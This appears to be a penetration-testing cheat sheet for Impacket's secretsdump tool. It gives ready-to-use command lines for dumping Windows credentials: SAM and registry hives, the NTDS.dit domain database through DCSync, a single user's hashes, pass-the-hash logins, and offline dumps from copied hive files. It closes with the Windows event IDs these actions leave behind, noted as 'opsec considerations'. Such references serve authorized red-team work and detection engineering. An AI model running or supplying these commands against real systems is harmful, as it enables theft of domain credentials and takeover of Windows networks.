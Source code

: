 ### Source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py  

### Dump registry hives and other data
```
impacket-secretsdump -dc-ip <dcIp> <domain>/<user>:<password>@<rhost> -history
```

### Using with pass the hash
```
impacket-secretsdump -hashes :<ntlmHash> -dc-ip <dcIp> <domain>/<user>@<rhost>
```

### Dump only ntds.dit (can also use DRSGetNCCHanges Method)
```
impacket-secretsdump -just-dc <domain>/<user>:<password>@<rhost>
```

### Dump credentials of single user
```
impacket-secretsdump -just-dc <domain>/<user>:<password>@<rhost> -just-dc-user <user>
```

### Dump from local registry hive copies
```
impacket-secretsdump -system <systemFile> -sam <samFile> -security <securityFile> LOCAL
```

### Dump from local system and ntds.dit
```
impacket-secretsdump -ntds <ntdsFile> -system system <systemFile>  LOCAL
```

### Opsec considerations 
```
Windows Security Log Event IDs
-Logon (4624)
-Logoff (4634)
-Special Logon (4672)

Windows System Logs
Service Control Manager (7040) -> multiple
```

